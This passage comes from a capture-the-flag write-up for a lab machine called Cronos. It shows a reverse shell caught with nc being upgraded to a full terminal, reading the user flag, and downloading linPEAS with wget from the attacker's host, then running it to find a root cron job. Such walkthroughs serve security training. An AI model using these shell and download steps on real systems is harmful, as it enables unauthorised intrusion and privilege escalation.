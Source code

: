 

I'll do the shell upgrade:



    www-data@cronos:/var/www/admin$ python -c 'import pty;pty.spawn("bash")'
    python -c 'import pty;pty.spawn("bash")'
    www-data@cronos:/var/www/admin$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    root@kali# stty raw -echo
    root@kali# nc -lnvp 443  # i entered fg
                                                           reset
    www-data@cronos:/var/www/admin$



And can grab `user.txt` from the only homedir:



    www-data@cronos:/home/noulis$ cat user.txt 
    51d23643************************



## Priv: www-data --\> root

### Enumeration

I'll go into my local
[linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
directory and start a Python3 webserver. Then I can grab it from Cronos:



    www-data@cronos:/dev/shm$ wget 10.10.14.24/linpeas.sh
    --2020-04-08 15:22:05--  http://10.10.14.24/linpeas.sh
    Connecting to 10.10.14.24:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 159864 (156K) [text/x-sh]                                         
    Saving to: 'linpeas.sh'

    linpeas.sh          100%[===================>] 156.12K  --.-KB/s    in 0.05s

    2020-04-08 15:22:05 (2.98 MB/s) - 'linpeas.sh' saved [159864/159864]  



Now run it, and in the Cron jobs section, the last line is red:



    www-data@cronos:/dev/shm$ bash linpeas.sh                                                                 ...[snip]...
    [+] Cron jobs
    [i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#scheduled-jobs
    -rw-r--r-- 1 root root  797 Apr  9  2017 /etc/crontab 
    ...[snip]...
    * * * * *       root    php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
    ...[snip]...
